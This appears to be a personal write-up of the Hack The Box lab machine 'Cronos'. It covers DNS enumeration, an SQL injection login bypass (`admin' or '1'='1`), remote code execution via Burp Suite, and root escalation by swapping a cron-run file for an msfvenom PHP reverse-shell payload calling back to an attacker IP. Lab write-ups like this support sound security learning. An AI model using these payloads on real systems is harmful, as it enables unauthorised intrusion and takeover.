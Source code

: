 ## Takeaway
- Always consider a possibility for SQL injection when coming across a login panel.(!especially, when it is not a part of any framework)
- For some reason, `nc -h`'s output is printed over stderr which needs to be redirected in order to be piped into `nc` properly.
## Metadata
- Using `dig` can find potential domain name of the website.![[Pasted image 20231222205514.png]]
- Further DNS query reveals two vhosts.![[Pasted image 20231222211853.png]]
#### Attack Path
 <mark>Exploitation</mark>
- Use SQL injection with `admin' or '1'='1` to bypass login panel at `http://admin.cronos.htb/`![[Pasted image 20231222220655.png]]
	- Use Burpsuite to capture and modify the request to achieve remote code execution. (`nc` does not work since it is openBSD)
		- Transfer payload![[Pasted image 20231222225811.png]]
		- Give execution permission![[Pasted image 20231222225913.png]]
		- Payload Execution![[Pasted image 20231222230103.png]]
- `User.txt` ![[Pasted image 20231222232932.png]]
- <mark>Post-Exploitation</mark>'
	- Transfer linPEAS.sh. After running, it will identify a Cron job which ran as root but the file belongs the user www-data and can be modified by us.![[Pasted image 20231222231826.png]]![[Pasted image 20231222231852.png]]
	- First, remove the file named `artisan` and then use `msfvenom -p php/reverse_php lhost=10.10.14.7 lport=4444 -f raw -o artisan` to generate the payload and transfer onto where the file is used to be located. Finally, set up listener and wait for the Cron job to execute to receive a reverse shell call back.![[Pasted image 20231222232831.png]]